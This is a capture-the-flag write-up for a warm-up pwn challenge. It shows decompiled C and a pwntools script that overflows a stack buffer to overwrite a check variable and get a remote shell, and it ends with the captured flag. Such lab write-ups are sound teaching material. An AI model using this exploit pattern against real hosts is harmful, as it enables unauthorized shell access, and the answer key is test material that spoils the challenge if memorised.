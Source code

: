 ## mybirthday (50 points)

#### Solved by nhanlun

```
Can you guess my birthday? Or you can just gimme the flag :)

nc 61.28.237.24 30200

author: pakkunandy
```

Open `mybirthday` with Ghidra:

```cpp
undefined4 main(void)
{
  undefined local_2c [24];
  int local_14;
  undefined *local_10;

  local_10 = &stack0x00000004;
  local_14 = 0xfeefeffe;
  setup();
  puts("Tell me your birthday?");
  read(0,local_2c,30);
  if (local_14 == 0xcabbfeff) {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  return 0;
}
```

We use buffer overflow to overwrite `local_14` with 0xcabbfeff to pass the check:

```py
from pwn import *
conn = remote('61.28.237.24', 30200)
conn.sendlineafter("?", b'a' * 24 + p32(0xcabbfeff))
conn.interactive()
```

```
$ ls
bin
dev
flag.txt
hpbd
lib
lib32
lib64
$ cat flag.txt
HCMUS-CTF{Just_A_Warm_Up_Pwn}
```

**Flag:** `HCMUS-CTF{Just_A_Warm_Up_Pwn}`
